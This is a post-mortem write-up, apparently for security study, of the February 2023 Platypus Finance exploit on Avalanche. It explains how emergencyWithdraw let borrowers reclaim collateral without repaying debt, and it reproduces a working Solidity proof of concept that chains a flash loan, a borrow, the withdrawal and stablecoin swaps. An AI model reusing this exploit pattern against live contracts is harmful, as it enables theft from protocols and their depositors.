 # Platypus Finance


## What's Platypus Finance?
Platypus Finance is a single-sided Automatic Market Maker (AMM) for stablecoins built on the Avalanche network that is designed to optimize capital efficiency

## Amount stolen
**$8.5 Million USD **

February 16, 2023  


## Vulnerability
Business Logic Flaw


## Analysis

The `emergencyWithdraw` function in the `MasterPlatypus` contract allows a user to withdraw
their LP tokens from a given pool without claiming any accrued rewards.

```solidity
     function emergencyWithdraw(uint256 _pid) public nonReentrant {
       PoolInfo storage pool = poolInfo[_pid];
       UserInfo storage user = userInfo[_pid][msg.sender];


       if (address(platypusTreasure) != address(0x00)) {
           (bool isSolvent, ) = platypusTreasure.isSolvent(msg.sender, address(poolInfo[_pid].lpToken), true);
           require(isSolvent, 'remaining amount exceeds collateral factor');
       }


       // reset rewarder before we update lpSupply and sumOfFactors
       IBoostedMultiRewarder rewarder = pool.rewarder;
       if (address(rewarder) != address(0)) {
           rewarder.onPtpReward(msg.sender, user.amount, 0, user.factor, 0);
       }


       // SafeERC20 is not needed as Asset will revert if transfer fails
       pool.lpToken.transfer(address(msg.sender), user.amount);


       // update non-dialuting factor
       pool.sumOfFactors -= user.factor;


       user.amount = 0;
       user.factor = 0;
       user.rewardDebt = 0;


       emit EmergencyWithdraw(msg.sender, _pid, user.amount);
   }
```

The only check done by this function is whether the user is solvent or not, 
using `PlatypusTreasure.isSolvent`. 


```solidity
    function _isSolvent(
       address _user,
       ERC20 _token,
       bool _open
   ) internal view returns (bool solvent, uint256 debtAmount) {
       uint256 debtShare = userPositions[_token][_user].debtShare;


       // fast path
       if (debtShare == 0) return (true, 0);


       // totalDebtShare > 0 as debtShare is non-zero
       debtAmount = (debtShare * (
      totalDebtAmount + _interestSinceLastAccrue())) / totalDebtShare;
      solvent = debtAmount <= (
             _open ? _borrowLimitUSP(_user, _token) : _liquidateLimitUSP(_user, _token));
   }
```

The underlying mechanism of this check involves the utilization of an internal function 
named `_isSolvent`. The boolean variable returned by this function is true when the user's debt is less than or equal to its USP borrow limit. 

Essentially, a user is considered solvent if their collateral is sufficient to cover their debt. It's crucial to note that withdrawing collateral 
must not result in any outstanding debt. The `emergencyWithdraw` function allows users with debt to withdraw all collateral 
LP tokens without settling the previously borrowed USP associated with that collateral, thereby leaving the protocol in a state of indebtedness.

In many decentralized finance (DeFi) protocols, it is typical for a liquidity pool to automatically repay 
a user's debt when they withdraw their funds. This mechanism ensures that users cannot withdraw their collateral without
settling any outstanding debt they might have incurred while using the protocol.


# proof of concept (PoC) 

![euler Image](../images/platypus.drawio.png)


1. `Flashloan` 44 Million USDC from Aave
2. `Deposit` the borrowed USDC into the `platypus` pool to get LP tokens
4. `Deposit` LP tokens to the `masterPlatypus` contract as **collateral**
5. `Borrow` as much **USP** as possible against the LP collateral
6. Execute `emergencyWithdraw` to get the LP collateral back **without** paying debt
7. Payback flash loan
8. Swap USP for Platypus pool liquidity in the form of other stablecoins.




### Flash Loan

`aaveV3.flashLoanSimple(address(this), address(USDC), 44_000_000 * 1e6, new bytes(0), 0);`
 

### Flash Loan fallback
```solidity
     function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initator,
        bytes calldata params
    ) external returns (bool) {
        USDC.approve(address(aaveV3), amount + premium);
        USDC.approve(address(Pool), amount);

        //step 2: deposit the borrowed USDC into the platypus pool to get LP tokens.
        Pool.deposit(address(USDC), amount, address(this), block.timestamp); // deposit USDC to LP-USDC


        uint256 LPUSDCAmount = LPUSDC.balanceOf(address(this));
        LPUSDC.approve(address(Master), LPUSDCAmount);

        //step 3: deposit LP tokens to the masterPlatypus contract as collateral
        Master.deposit(4, LPUSDCAmount); // deposit LP-USDC to MasterPlatypus


        PlatypusTreasure.PositionView memory Position = Treasure.positionView(address(this), address(LPUSDC));
        uint256 borrowAmount = Position.borrowLimitUSP;

        //step 4: borrow as much USP as possible against the LP collateral
        Treasure.borrow(address(LPUSDC), borrowAmount); // borrow USP from Treasure

        //step 5: execute emergecyWithdraw to get the LP colletral back wihtout paying debt
        Master.emergencyWithdraw(4);


        LPUSDC.approve(address(Pool), LPUSDC.balanceOf(address(this)));

        // step 6: use the LP tokens to withdraw the USDC initisially borrowed from aava to pay back flashloan.
        Pool.withdraw(address(USDC), LPUSDC.balanceOf(address(this)), 0, address(this), block.timestamp); // withdraw USDC from LP-USDC

        // swap USP for playtupuis pool liquidity in form of other
        swapUSPToOtherToken();
        return true;
    }

      function swapUSPToOtherToken() internal {
        USP.approve(address(Pool), 9_000_000 * 1e18);
        Pool.swap(address(USP), address(USDC), 2_500_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDC_E), 2_000_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT), 1_600_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT_E), 1_250_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(BUSD), 700_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(DAI_E), 700_000 * 1e18, 0, address(this), block.timestamp);
    }
```


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Platypus_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
